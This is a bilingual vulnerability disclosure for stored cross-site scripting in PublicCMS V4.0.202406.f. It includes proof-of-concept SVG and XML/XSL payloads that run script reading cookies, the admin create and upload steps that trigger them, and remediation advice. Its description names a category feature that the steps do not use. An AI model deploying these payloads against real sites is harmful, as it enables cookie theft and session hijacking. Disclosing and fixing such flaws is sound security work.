## Vulnerability Author: 

c0rdXy

## Affected Version: 

PublicCMS V4.0.202406.f



## Vendor:

www.publiccms.com

https://github.com/sanluan/PublicCMS

https://github.com/sanluan/PublicCMS/releases

## Vulnerability File:

com/publiccms/controller/admin/cms/CmsWebFileAdminController.java

## Vulnerability Description:

PublicCMS V4.0.202406.f was discovered to contain a cross-site scripting (XSS) vulnerability via a crafted script to the Category Managment feature

## Vulnerability hazards

After a successful attack using XSS code, malicious users may get high permissions. The XSS vulnerability mainly has the following hazards:

1. Steal various user accounts;
2. Steal the user's Cookie information, impersonate the user's identity to enter the website;
3. Hijack user sessions and perform arbitrary operations; Refers to operating the user's browser;
4. Brush stream display, execution of commercial advertising;
5. Spread worms;
6. And so on...

## Payload_1

### svg

Open the Website File Management function point in the File ribbon and click the Create File button.

打开文件功能区中的网站文件管理管理功能点，点击创建文件按钮。



Create an svg file, enter the following content, and save it.

创建一个svg文件，输入下列内容，然后保存。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert(document.cookie);</script>
</svg>
```



Same reason.

同理。

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900"
stroke="#004400"/>
<script type="text/javascript">alert('XSS');</script>
</svg>
```



Click the View button.

点击查看按钮。



The XSS vulnerability is successfully triggered and the current cookie information is obtained.

成功触发XSS漏洞，获取到当前的Cookie信息。




### xml

Similarly, upload the xml file and put the following code in respectively. Note that two xml files need to be uploaded here.

The first xml file.

同理上传xml文件，分别放入如下代码，注意，此处需要上传两个xml文件。

第一个xml文件。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html><body>
<script>alert(document.cookie);</script>
</body></html>
</xsl:template>
</xsl:stylesheet>
```



In the second XML file, put the URL of the first XML file in the href attribute.

第二个xml文件，在其中的href属性中放入第一个xml文件的URL。

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<?xml-stylesheet type="text/xsl" href="http://127.0.0.1:8080/webfile/1.xml"?>
<test></test>
```



At this time, click to view the second XML file and successfully trigger the XSS vulnerability.

此时点击查看第二个xml文件，成功触发XSS漏洞。



Same reason.

同理。







## Payload_2

Click the Upload File button.

点击上传文件按钮。



When trying to upload an svg file, it says the file is unsafe and cannot be uploaded.

尝试上传svg文件，提示文件不安全，无法上传。


At this point we try to upload the xml file and it is uploaded successfully.

此时我们尝试上传xml文件，成功上传。





We continue to upload the second XML file and then check it. The XSS vulnerability is successfully triggered.

我们继续上传第二个xml文件，然后查看。成功触发XSS漏洞。





##Modification suggestion

* It is recommended to encode the input and output parameters in an entity format.
* It is recommended that you do not enable the online viewing function for svg and xml, and click to view the source file directly.
* It is recommended to prohibit illegal file uploading.